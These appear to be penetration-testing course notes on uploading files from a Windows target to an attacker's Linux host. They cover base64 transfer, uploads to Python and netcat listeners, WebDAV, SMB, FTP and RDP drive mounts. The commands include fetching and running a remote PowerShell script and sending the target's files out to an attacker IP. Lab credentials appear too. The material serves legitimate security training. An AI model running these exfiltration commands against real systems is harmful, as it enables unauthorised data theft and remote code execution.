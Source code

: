 # Uploading
Situations: password cracking, analysis, exfiltration,..
- Upload files from Windows target machine onto our Linux machine 

## Powershell Bas64 Encode Decode
1. Get Hash on Windows
	- `Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash`
2. Encode File with Powershell on Windows
	- `[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
3. Copy and paste into Linux
4. Decode File in Linux
	- `echo <the long string> | base64 -d > hosts`
5. Check the host
	- `md5sum hosts`

## Powershell Web Uploads

*Configured WebServer with Upload*
1. On Linux,
	- `pip3 install uploadserver`
	- `python3 -m uploadserver`
		- Now hosting a server at port 8000
2. On Windows,
	- `IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
		- We need this script to upload the file to Linux
	- `Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts

*Powershell base 64 web upload*
1. On Linux,
	- `nc -lvnp 8000
2. On Windows,
	- `$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
	- `Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
3. On Linux,
	- `echo <base64> | base64 -d -w 0 > hosts

# SMB Uploads
- Companies usually allow outbound traffic using HTTP and HTTPS (80, 443) protocols.
- Usually dont allow SMB (445) as it leaves them open to attacks
- Alternative: run SMB over HTTP with WebDav.WebDAV
	- WebDav is an extension of HTTP
	- Enables webserver to behave like fileserver

*To configure WebDav server*
1. On Linux, configure the WebDav server
	- `sudo pip3 install wsgidav cheroot`
	- `sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
2. On Windows,
	- `dir \\192.168.49.128\DavWWWRoot`
		- DavWWWRoot is special keyword recognized by Windows shell
		- Tells it to connect to root of WebDav server
3. To upload files, on Windows
	- `copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\`

If there are no SMB (TCP/445) restrictions, can use impacket-smbserver just like in [[1. Windows Downloads]]

1. On Linux, start the smb server
	- `sudo impacket-smbserver share -smb2support .`
		- can replace . with whatever existing directory
2. On Windows target, copy the file to share
	- `Copy-Item -Path 'C:\path\to\file.txt' -Destination '\\10.10.14.1\SHARE\file.txt'`

# FTP Uploads
1. Configure FTP server in our machine
	- `sudo pip3 install pyftpdlib`
	- `sudo python3 -m pyftpdlib --port 21 -- write
		- --write to allow target to upload files to us
2. Then on Windows
	- `(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')`
3. If no interactive shell,
	- `echo open 192.168.49.128 > ftpcommand.txt`
	- `echo USER anonymous >> ftpcommand.txt`
	- `echo binary >> ftpcommand.txt`
	- `echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt`
	- `echo bye >> ftpcommand.txt`
	- `ftp -v -n -s:ftpcommand.txt`


# RDP Transfer (to and fro)

1. Mount Linux Folder
	- `rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'`
	- or
	- `xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer`
	- The IP, u and p are for the Windows machine. Am mounting the linux drive folder onto the Windows machine
	- d is domain
2. On Windows, 
	- Connect to `\\tsclient\` in file explorer
		- Network > tsclient
